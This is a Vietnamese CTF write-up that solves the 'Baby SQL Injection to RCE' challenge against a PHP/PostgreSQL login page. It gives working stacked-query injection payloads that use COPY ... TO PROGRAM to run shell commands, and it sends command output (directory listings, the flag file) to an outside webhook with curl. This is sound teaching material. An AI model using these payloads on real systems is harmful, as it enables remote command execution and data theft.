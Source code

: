# SQL Injection

**Tên challenge:** Baby SQL Injection to RCE

**Link challenge:** [Here](https://battle.cookiearena.org/challenges/web/baby-sql-injection-to-rce)

**Tác giả challenge:** MEME

**Mục tiêu challenge:** This is because traditional SQL injection techniques. Could you execute command? The challenge is running in PostgreSQL and PHP. Flag File: /`flagXXXX.txt`. Flag Format: `CHH{XXX}`

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, giao diện Website khá đơn giản, chỉ có 1 chức năng Login và Source code được show ra bên phải:

![alt text](./images/image.png)

**B2:** Ta thử đăng nhập với username là `admin` và password là `admin`

![alt text](./images/image-1.png)

=> Xem ra manh mối duy nhất của ta là Source code được in ở trang Login

Khi ta đọc kỹ đoạn Code xử lý câu truy vấn SQL thì ta thấy nó đã không được xử lý đúng cách

![alt text](./images/image-2.png)

Tại sao lại không được xử lý đúng cách ?
* **Trả lời:** Vì Developer đã lấy thẳng input người dùng `$username` và `$password` đưa vào câu truy vấn mà không dùng bất kỳ hình thức sàng lọc nào.

=> Ta có thể lợi dụng điểm này và chèn thêm các câu truy vấn SQL độc hại.

Nhưng mà vấn đề là ta không thể Login được vào trang thông qua chèn câu SQL độc hại, vì:

1. Ta không hề biết được `username` của bất kỳ người dùng nào trong bảng `users`
2. Ta không thể chèn thêm câu SQL `Select * from users` được, vì sẽ không có chỗ để hiện kết quả trả về.

**VD:** Nếu ta điền `$username` thành `' Select * from users; --` thì câu truy vấn hoàn chỉnh trong code sẽ thành:
```
SELECT * FROM users WHERE username =''; Select * from users; -- ' AND password='$password'";
```

![alt text](./images/image-3.png)

Thì kết quả trả về của ta nhất định sẽ **LỚN HƠN 0** và thoả điều kiện với ảnh trên. Nhưng khi đăng nhập thành công thì nó chỉ sẽ in ra:
```
Welcome, ' Select * from users; --
```

Bạn thấy đó, không có chỗ hiện **KẾT QUẢ** của câu truy vấn ta chèn vào, nên ta bắt buộc phải dùng cách khác.

Bài này có thể có nhiều cách để lấy `Flag` nhưng tôi sẽ hướng dẫn bạn theo cách của tôi.

Mặc dù có nhiều cách lấy `Flag` nhưng chung quy cũng là cách thức dùng SQL Injection để chèn thêm câu truy vấn độc hại.

Trong PostgreSQL, hệ thống có hỗ trợ ta thực thi `OS Command` thông qua sử dụng lệnh:
```
COPY ... TO PROGRAM
```

**VD:** COPY (SELECT 'Hi') TO PROGRAM 'echo Hello';

* Ta có thể áp dụng lệnh này vào Challenge nhưng nếu ta sử dụng `echo Hello` thì cũng không có ích gì vì nó sẽ không in ra `Hello` cho ta biết.

=> Vì vậy, ta sẽ dùng cách thức là đẩy thông tin ra ngoài để biết được câu lệnh có được thực thi hay không ?

**Cụ thể:** Ta sẽ tạo 1 Webhook bên ngoài, sau đó ta sẽ thay thế lệnh `echo Hello` thành `curl web_hook_domain_cua_ta`, rồi sau đó kiểm tra xem Webhook của ta có nhận được gói tin không ?
* Nếu có, chứng tỏ ta có thể đẩy thông tin từ Website ra ngoài.

**B2:** Ta sẽ điền input `username` là: `'; COPY (SELECT 'Hi') TO PROGRAM 'curl https://webhook_domain_cua_ban'; --` và `password` thì điền gì cũng được

![alt text](./images/image-4.png)

=> Vậy là, ta đã thực thi thành công Command trên Website, vậy thì bây giờ ta lấy `Flag` bằng cách nào ?

* **Trả lời:** Bây giờ, ta sẽ thêm 1 parameter ở sau Webhook Domain của ta, cụ thể là payload của ta sẽ thay đổi như sau:
```
'; COPY (SELECT 'Hi') TO PROGRAM 'curl https://webhook_domain_cua_ban/?output='; --
```

**Giải thích:** Ta thêm 1 parameter `output` ở phía sau Webhook Domain của ta, output này sẽ có nhiệm vụ chứa đựng những thông tin mà ta đẩy từ Website ra ngoài.

**VD:** Nếu ta để giá trị của parameter `output` là `test` thì khi gói tin từ Website bắn tới Webhook domain của ta sẽ có dạng sau:

![alt text](./images/image-5.png)

Vì vậy, ta sẽ kết hợp với thêm cách sử dụng Command Linux trong chuỗi String như sau: `$(command)`

**VD:** Ta sẽ đổi giá trị của parameter `output` thành `$(pwd)` thì lúc này khi gửi gói tin đến Webhook của ta, giá trị của `output` sẽ trả về đường dẫn hiện tại mà ta đang đứng ở trên Web-Server.

**B3:** Tận dụng những điều trên, ta đổi input `username` thành
```
'; COPY (SELECT 'Hi') TO PROGRAM 'curl https://webhook_domain_cua_ban/?output=$(cd /; ls *.txt | tail -n +2)'; --
```
**Giải thích:** Trong $() có 2 câu lệnh:
1. `cd /`: để đưa ta về thư mục `/` ( nơi chứa Flag )
2. `ls *.txt | tail -n +2`: Liệt kê các file `.txt` ở thư mục `/` và sau đó sẽ lấy dòng thứ hai trong toàn bộ kết quả mà `ls` trả về.

* **Cụ thể:** Vì khi dùng lệnh `ls *.txt` nó sẽ trả về tất cả các file `.txt` ở thư mục `/`, nếu ta không dùng lệnh **tail** thì nó sẽ chỉ lấy dòng đầu tiên của kết quả `ls` rồi gán vào giá trị `output` và như vậy nếu kết quả đầu tiên không phải là file Flag ta cần tìm thì sao ?

Cho nên đến đây, ta sẽ phải mò từng dòng, do tôi đã biết được file `Flag` thật nằm ở vị trị nào nên tôi dùng `tail -n +2`

Tới đây nhiều bạn sẽ thắc mắc là vì sao không dùng `cat *.txt` cho nhanh ?
* **Trả lời:** Vì có nhiều hơn 1 file `.txt`, nếu dùng lệnh `cat *` thì cũng tương tự lệnh `ls`, kết quả được gán vào output cũng chỉ là kết quả file txt được `cat` đầu tiên nếu không dùng thêm `tail` hoặc `head` để chọn dòng cụ thể.

**B4:** Sau khi đã biết được tên file txt chứa Flag thật, thì ta đổi câu lệnh trong $() thành lệnh `cat Ten_flag.txt` thôi.

<u><b>Lưu ý B4:</b></u> `$()` vẫn luôn phải  `cd /` trước, nếu không bạn sẽ ở thư mục hiện tại và khi `cat` Flag sẽ không có kết quả vì Flag nằm ở thư mục `/`.